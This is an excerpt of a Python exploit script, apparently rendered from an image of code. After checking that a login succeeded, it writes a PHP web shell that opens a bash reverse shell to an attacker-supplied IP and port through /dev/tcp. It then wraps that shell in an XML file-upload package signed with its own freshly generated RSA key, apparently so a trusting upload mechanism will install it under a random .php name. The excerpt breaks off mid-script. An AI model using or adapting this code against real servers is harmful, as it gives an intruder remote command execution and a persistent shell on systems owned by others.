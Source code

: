 ```python
if 'Logged in' not in r.text:
    print('[Failed]')
    logging.error("Login failed for user %s", username)
    exit(1)

print('[SUCCESS]')
logging.info("Login successful for user %s", username)

temp_php_file = 'temp_shell.php'
php_shell_script = f"<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/{payload_ip}/{payload_port} 0>&1\"'); ?>"
with open(temp_php_file, 'w') as shell_file:
    shell_file.write(php_shell_script)

print("[*] Temporary PHP shell script created: temp_shell.php")
logging.info("Temporary PHP shell script created: temp_shell.php")

dest_filename = ''.join(random.choices(string.ascii_lowercase, k=16)) + '.php'
print("[*] Creating the gzip...")
xmldata = """<xml>
   <files>
       <file>
           <name>resource/{}</name>
           <data>{}</data>
           <filesignature>{}</filesignature>
       </file>
   </files>
   <publickey>{}</publickey>
   <signature></signature>
</xml>"""

with open(temp_php_file) as data:
    filedata = data.read()

keypair = rsa.generate_private_key(
    public_exponent=65537,
    key_size=2048,
)

public_key = keypair.public_key().public_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PublicFormat.SubjectPublicKeyInfo
)

filesignature = keypair.sign(
    filedata.encode('utf-8'),
    padding.PKCS1v15(),
    hashes.SHA256()
)

data = xmldata.format(
    dest_filename,
    base64.b64encode(filedata.encode('utf-8')).decode('utf-8'),
    base64.b64encode(filesignature).decode('utf-8'),
    base64.b64encode(public_key).decode('utf-8')
)

signature = keypair.sign(
    data.encode('utf-8'),
    padding.PKCS1v15(),
    hashes.SHA256()
)

```